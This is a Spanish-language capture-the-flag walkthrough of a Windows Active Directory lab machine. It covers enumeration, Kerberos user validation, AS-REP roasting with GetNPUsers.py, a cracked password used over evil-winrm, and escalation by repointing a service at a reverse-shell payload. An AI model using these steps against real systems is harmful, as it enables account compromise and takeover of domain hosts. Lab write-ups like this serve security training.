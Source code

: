 # Introducción

Nos enfrentamos a la máquina Services

# Enumeración

Ping + SO

```
ping -c 3 10.10.134.65
PING 10.10.134.65 (10.10.134.65) 56(84) bytes of data.
64 bytes from 10.10.134.65: icmp_seq=1 ttl=128 time=2.99 ms
64 bytes from 10.10.134.65: icmp_seq=2 ttl=128 time=0.950 ms
64 bytes from 10.10.134.65: icmp_seq=3 ttl=128 time=0.721 ms

--- 10.10.134.65 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 0.721/1.554/2.991/1.020 ms
```

Como podemos ver nos encontramos contra una máquina Windows (ttl=128)

Escáner puertos

```
sudo nmap -sCV -T4 --min-rate 4000 -p- 10.10.134.65

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-30 09:05 BST
Nmap scan report for ip-10-10-134-65.eu-west-1.compute.internal (10.10.134.65)
Host is up (0.0011s latency).
Not shown: 65506 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 08:05:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-09-29T08:02:09
|_Not valid after:  2025-03-31T08:02:09
|_ssl-date: 2024-09-30T08:06:31+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:BB:66:A2:D0:4B (Unknown)
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: WIN-SERVICES, NetBIOS user: <unknown>, NetBIOS MAC: 02:bb:66:a2:d0:4b (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-30 09:06:32
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Vaya vaya encontramos bastantes cosas vamos a ir poco a poco enumerando todo y viendo que podemos hacer, cosas imporantes para tener en cuenta, tenemos el 80 abierto con un http, un kerberos por el 88 etc.

La primera enumeración que haremos es por el servicio smb utilizaremos (smbclient)

```
smbclient -L //10.10.134.65/
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
smb1cli_req_writev_submit: called for dialect[SMB3_11] server[10.10.134.65]
Error returning browse list: NT_STATUS_REVISION_MISMATCH
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.134.65 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
```

Gracias a esto nos damos cuenta que hay un usuario Anonymous que nos deja loguearnos sin necesidad de contraseña. Pero no encontramos nada importante y nos echa, con lo cuál nos vamos a otra enumeración.

La web:

![image](https://github.com/user-attachments/assets/bc0c32de-af54-48f2-bba2-e78076febe33)

Si vamos explorando la web nos encontramos con todos los empleados que hay en la empresa.

![image](https://github.com/user-attachments/assets/ee78e873-5f18-474b-89a9-04c603f4e2f7)

Si nos fijamos más abajo encontramos un correo electrico referido a servicios "j.doe@sevices.local" doy por hecho que se refiere a "Joanne Doe"

Tenemos un nombre y correo j.doe@services.local:Joanne Doe

Una forma muy guay de comprobar que estos correos son reales es con kerbrute utilizando kerberos

Creamos unos correos y usuarios predefinidos nosotros.

1- j.Doe : Joanne Doe
2- j.Rock - Jack Rock
3- w.Masters - Will Masters
4- J-LaRusso - Johnny LaRusso

![image](https://github.com/user-attachments/assets/cb683c86-4e1a-47d3-bb4d-42e4f9e3e9a9)

Cogemos el repo de [Kerbrute](https://github.com/ropnop/kerbrute)

![image](https://github.com/user-attachments/assets/a017319d-bfd0-4348-b8e8-de97dc5a2456)

Como podemos ver encontramos que todos los correos son válidos, esto que nos llevamos!!

Vamos a hacer un [AS-Rep Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

Este ataque recoge a los usuarios que tienen la pre-autenticación de Kerberos quitada y caputa el hash de la contraseña.

```
GetNPUsers.py -dc-ip <Target's IP address> -request 'services.local/' -usersfile <username file> -format hashcat
```

![image](https://github.com/user-attachments/assets/1ae9c0e7-3416-4a3d-9586-732b33e0e4f8)

Una vez recogido el hash, podemos utilizas "hashcat" o "john" para descifrar la pass

![image](https://github.com/user-attachments/assets/3a999345-0e3f-4bdb-8c73-78a4c7b84d61)

![image](https://github.com/user-attachments/assets/1b8c235f-10e3-481d-9872-92413b620bd9)

j.rock:Serviceworks1

```
evil-winrm -i 10.10.134.65 -u j.rock -p Serviceworks1
```

Estamos dentro, como siempre vamos a enumerar quien somos y que servicios y privilegios disponemos

![image](https://github.com/user-attachments/assets/7c80ee70-b8e4-4b52-81f8-15fcbb492859)

Nos encontramos que tenemos permisos del grupo "Sever Operators" en este grupo tenemor disponibilidad de parar y correr servicios, para listarlos

```
services
```

![image](https://github.com/user-attachments/assets/7e57f3b0-a31e-4310-9bd1-fea2302c31a9)

(A sí queremos ya podemos coger la flag del usuario

Podemos elegir el servicio que queramos y cambiar el payload como nostros queramos, elegire en mi caso el servicio "cfn-hup"

pero primero habra que crear el payload con este [repo](https://github.com/dev-frog/C-Reverse-Shell)

![image](https://github.com/user-attachments/assets/a67358b6-c1a7-4bc1-a5df-681f3cee2f29)

![image](https://github.com/user-attachments/assets/4f80561c-bee2-42e8-9642-7da878ca2d28)

![image](https://github.com/user-attachments/assets/9b94c992-5dd3-4f02-9aa2-7b2e7dbf2153)

Una vez tenemos el script ya podemos cambiar el path de dicho servicio al payload y hacer un nc

![image](https://github.com/user-attachments/assets/2514fc13-0455-4cbe-9795-0634e38e894f)

GG!!

Para entender un poco todo lo que hemos hecho:

- Hemos cogido los usuarios y correos validos de kerberos
- Hemos comprobado los que no tenían la autentificación por defecto y gracias a ello hemos sacado su hash de contraseña
- Hemos sacado uno y lo hemos desencriptado, dentro de la sesión hemos listado los servicios
- Hemos encontrado un servicio y un grupo que teniamos permisos, hemos cambiado dicho servicio de ruta refiriendose a nuestro payload
- Hemos creado una shell reversa con permisos de administrador



